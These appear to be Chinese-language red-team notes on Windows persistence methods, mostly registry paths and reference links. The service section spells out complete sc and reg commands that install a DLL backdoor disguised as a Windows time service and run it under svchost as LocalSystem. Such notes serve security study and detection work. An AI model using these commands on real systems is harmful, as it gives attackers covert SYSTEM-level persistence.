 ## 映像劫持

[隐蔽后门——Image File Execution Options新玩法-安全客 - 安全资讯平台 (anquanke.com)](https://www.anquanke.com/post/id/151425)

## 服务
- System权限

1. `sc create TimeSync binPath= "C:\Windows\System32\svchost.exe -k netsvr" start= auto obj= LocalSystem`
2. `reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync\Parameters /v ServiceDll /t REG_EXPAND_SZ /d "C:\Users\hunter\Desktop\localService32.dll" /f /reg:64`
3. `reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync /v Description /t REG_SZ /d "Windows Time Synchronization Service" /f /reg:64`
4. `reg add HKLM\SYSTEM\CurrentControlSet\services\TimeSync /v DisplayName /t REG_SZ /d "TimeSyncSrv" /f /reg:64`
5. `reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Svchost" /v netsvr /t REG_MULTI_SZ /d TimeSync /f /reg:64`
6. `sc start TimeSync`

## aedebug(崩溃时触发)

[https://learn.microsoft.com/zh-cn/windows/win32/debug/configuring-automatic-debugging](https://learn.microsoft.com/zh-cn/windows/win32/debug/configuring-automatic-debugging)

HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\AeDebug

## 组策略拓展

HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GPExtensions

[https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/policy/creating-a-policy-callback-function](https://learn.microsoft.com/zh-cn/previous-versions/windows/desktop/policy/creating-a-policy-callback-function)

[https://learn.microsoft.com/en-us/archive/blogs/mempson/group-policy-client-side-extension-list](https://learn.microsoft.com/en-us/archive/blogs/mempson/group-policy-client-side-extension-list)

## 搜索过滤

计算机\HKEY_LOCAL_MACHINE\SOFTWARE\Classes\Excel.CSV\shell\Open\command

[https://learn.microsoft.com/zh-cn/windows/win32/search/-search-ifilter-about#ifilter-dlls](https://learn.microsoft.com/zh-cn/windows/win32/search/-search-ifilter-about#ifilter-dlls)

[PSBits/IFilter at master · gtworek/PSBits (github.com)](https://github.com/gtworek/PSBits/tree/master/IFilter)

## 磁盘清理

[https://www.hexacorn.com/blog/2018/09/02/beyond-good-ol-run-key-part-86/](https://www.hexacorn.com/blog/2018/09/02/beyond-good-ol-run-key-part-86/)
